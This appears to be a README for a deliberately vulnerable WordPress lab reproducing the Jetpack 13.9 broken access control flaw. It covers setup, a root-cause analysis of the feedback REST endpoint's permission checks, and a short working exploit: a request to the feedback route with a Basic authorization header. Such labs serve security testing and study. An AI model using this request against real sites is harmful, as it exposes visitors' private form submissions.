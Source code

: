 # wordpress-jetpack-broken-access-control-vulnerable-application

This is a vulnerable application to test the exploit for the **Jetpack** 13.9 broken access control.

## WARNING!

**This application contains serious security vulnerabilities. Run it at your own risk! It is recommended using a backed-up and sheltered environment (such as a VM with a recent snapshot and host-only networking). Do not upload this application to any Internet facing servers, as they will be compromised.**

***DISCLAIMER*: I do not take responsibility for the way in which any one uses this application. The only purpose of this application is to be a test scenario for the Jetpack 13.9 broken access control exploit and it should not be used maliciously. If your server is compromised via an installation of this application it is not my responsibility, it is the responsibility of the person(s) who uploaded and installed it.**

## Vulnerability info

* **Link**: [https://jetpack.com/blog/jetpack-13-9-1-critical-security-update/](https://jetpack.com/blog/jetpack-13-9-1-critical-security-update/)
* **Description**: This vulnerability could be used by any logged in users on a site to read forms submitted by visitors on the site.
* **Fix:** [https://github.com/Automattic/jetpack-production/commit/18605ae8cdc7438c2088336c51f3db8d6a5b90fd](https://github.com/Automattic/jetpack-production/commit/18605ae8cdc7438c2088336c51f3db8d6a5b90fd)

## Usage

Here the steps to **setup** the environment:
1. Launch `./up.sh` to start composition.
2. Complete the installation of WordPress here: [https://localhost:1337/wp-admin/install.php](http://localhost:1337/wp-admin/install.php).
3. Login into WordPress.
4. Go to "*Plugins*": [https://localhost:1337/wp-admin/plugins.php](http://localhost:1337/wp-admin/plugins.php).
5. Click on "*Activate*" under the "*Jetpack*" plugin. **DO NOT UPDATE IT**, since we need the vulnerable version.
6. Go to "*Jetpack*" > "*Settings*" > "*Writing*" and, in the "*Composing*" section, enable "*Jetpack Blocks give you the power to deliver quality content that hooks website visitors without needing to hire a developer or learn a single line of code.*".
7. Create a new page in WordPress adding a "*Contact Form*" element.
8. Visit the created page and use the contact form to populate feedbacks.

The container will be called `vuln-wp-jetpack`.

To **teardown** the environment use `./down.sh` command or `./down_and_delete.sh` command to also remove images and the volume of the database.

## Root cause

Having a look at the [fix](https://github.com/Automattic/jetpack-production/commit/18605ae8cdc7438c2088336c51f3db8d6a5b90fd), it's trivial to understand that the only check performed, by both `get_items_permissions_check()` and `get_item_permissions_check()` methods, is the membership of the user to the blog.

Both methods are declared in the `Contact_Form_Endpoint` class of the `automattic/jetpack-forms/src/contact-form/class-contact-form-endpoint.php` file. As the comment at the beginning of the class says, this class is...
> Used as `rest_controller_class` parameter when `feedback` post type is registered in `\Automattic\Jetpack\Forms\ContactForm\Contact_Form`

This can be seen in the `automattic/jetpack-forms/src/contact-form/class-contact-form-plugin.php` file at line 201, where the `feedback` custom post type is registered.

The available types can be retrieved via REST APIs with a request like the following.

```
GET /?rest_route=/wp/v2/types
```

The response contains the `feedback` type.

## Exploit

To exploit the vulnerability, a request like the following is sufficient.

```
GET /?rest_route=/wp/v2/feedback
```

The request must contains an authorization header with an *Application Password* like the following.

```
Authorization: Basic eW91cl91c2VybmFtZTp5b3VyX2FwcGxpY2F0aW9uX3Bhc3N3b3Jk
```

## Authors

* **Antonio Francesco Sardella** - *implementation* - [m3ssap0](https://github.com/m3ssap0)

## License

This project is licensed under the Unlicense - see the **LICENSE** file for details.
